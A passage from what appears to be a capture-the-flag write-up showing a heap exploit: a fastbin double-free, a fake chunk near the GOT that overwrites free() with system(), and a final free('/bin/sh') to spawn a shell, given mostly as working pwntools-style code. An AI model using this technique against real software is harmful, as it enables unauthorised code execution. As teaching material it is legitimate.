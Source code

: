    Proceed by making a double-free:
   
   ```c
   add(60, b"A")
   add(60, b"B")
   free(0)
   free(1)
   free(0)
   ```
   
   Do a fastbin dupe to a fake unaligned chunk nearby the GOT table, overwriting `free()` with `system()`:
   
   ```c
   add(60, pack(E.got['__gmon_start__']+2)) # 0x602000-6
   add(60, b'ignore')
   add(60, b'/bin/sh\0')
   add(60, fit({6+8: C.symbols['system']}) + pack(C.symbols['puts']))
   ```
   
   Note that 0x602000 points to `&_DYNAMIC` (at `0x601e28`), making the fastbin size valid once again. The fake fastbin allocated will have data written to `0x60200a`, and the functions being overwritten here are `free` (to `system`) and `puts` (to `puts` to prevent a segfault). 
   The last step is to get a shell via `free("/bin/sh")`:
   
   ```c
   free(4)
   r.interactive()
   ```

